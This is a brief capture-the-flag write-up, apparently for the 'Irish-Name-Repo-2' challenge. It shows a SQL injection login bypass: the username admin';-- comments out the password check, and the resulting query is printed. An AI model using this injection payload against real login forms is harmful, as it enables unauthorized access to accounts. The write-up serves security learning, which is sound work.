 # Irish-Name-Repo-2

[Prev](./Irish-Name-Repo-1.md) injection doesn't work here, try something else

```text
username: admin';--
password: random
SQL query: SELECT * FROM users WHERE name='admin';--' AND password='random'
```
